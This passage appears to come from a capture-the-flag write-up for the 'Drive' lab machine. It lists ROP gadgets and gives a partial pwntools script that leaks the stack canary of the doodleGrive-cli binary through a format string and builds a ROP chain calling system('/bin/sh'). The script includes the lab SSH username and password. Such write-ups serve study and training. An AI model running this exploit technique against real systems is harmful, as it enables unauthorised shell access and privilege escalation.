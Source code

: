     0x0000000000436a15: pop rdi; out dx, eax; mov qword ptr [rdi - 9], rcx; mov byte ptr [rdi - 1], dl; ret; 
    0x0000000000436961: pop rdi; out dx, eax; mov qword ptr [rdi - 9], rcx; mov dword ptr [rdi - 4], edx; ret; 
    0x0000000000403a4b: pop rdi; pop rbp; ret; 
    0x0000000000401912: pop rdi; ret; 
    

The last one looks perfect. And 0x401913 (one byte after) is just `ret`.

#### Exploit

I’ll generate the following script:

    
    
    from pwn import *
    
    elf = ELF("./doodleGrive-cli")
    
    # addresses
    pop_rdi = p64(0x401912) # ropper -f ./doodleGrive-cli --search "pop rdi"
    ret = p64(0x401913)     # just return from previous
    bin_sh = p64(0x497cd5)  # strings -a -t x doodleGrive-cli | grep bin/sh
    
    if args.SSH:
        ssh = ssh(host="drive.htb", user="tom", password="johnmayer7")
        p = ssh.process("/home/tom/doodleGrive-cli")
        prompt = ""
    else:
        p = elf.process()
        prompt = "$ "
    
    #gdb.attach(p, """break *0x40229c\nc\n""")
    
    # format string vuln to leak canary
    p.readuntil(b"Enter Username:\n")
    p.sendline(b"%15$lx")
    p.readuntil(b"Enter password for ")
    leak = p.readuntil(b":\n").strip(b"\n:")
    canary = int(leak, 16)
    info(f"Leak canary: 0x{canary}")
    
    # build payload to ROP system("/bin/sh")
    payload = b"A" * 56             # offset to canary
    payload += p64(canary)          # leaked canary
    payload += b"A" * 8             # junk for stack pointer
    payload += ret                  # ret for stack alignment
    payload += pop_rdi              # go to pop rdi gadget
    payload += bin_sh               # address of "/bin/sh" to pop into RDI
    payload += p64(elf.sym.system)  # return to system
    payload += p64(elf.sym.exit)    # return to exit
    